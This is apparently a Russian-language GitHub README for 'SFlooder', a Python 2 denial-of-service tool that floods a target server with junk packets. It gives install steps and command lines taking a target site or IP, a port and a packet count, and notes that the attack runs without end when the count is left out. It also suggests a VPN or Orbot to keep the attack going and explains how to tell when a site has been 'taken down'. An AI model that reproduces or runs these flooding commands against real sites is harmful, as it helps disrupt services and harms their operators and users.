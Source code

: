 ## SFlooder
#### Немного о программе
Эта программа создаёт нагрузку на сервер посылая на него так называемый «Мусор»
#### Запуск
1. Устанавливаем git(pkg install git)
2. Устанавливаем python(2 версия) командой: 
apt install python2
3. Устанавливаем git командой:
git clone http://github.com/YamkaFox/sflooder.git
4. Переходим в папку с файлом(cd sflooder)
5. Запускаем наш файл командой:
python2 SFlooder.py {айпи или название сайта} {порт} {сколько пакетов} вы хотите отослать
Например:
## python2 SFlooder.py https://example.com 80 1000000
Или же:
## python2 SFlooder.py 192.168.0.1 80 100000000
Если вы не напишите число пакетов, то нагрузка будет бесконечной!
Если на сайте,на который идёт атака вылетает ошибка 24 - значит нехватка интернета(юзайте ThunderVPN или Orbot)
Если ошибка 107 - сайт положен!
Если ошибка 404 - такой страницы не существует!
Если ошибка 502 - сайт перегружен или разорвал соединение
#### Создатель
[Кирилл(https://vk.com/yamkayt)]
#### Создатели FAQ:
[Матвей(https://vk.com/id483313209)]
[Максим(https://vk.com/levenchick)]
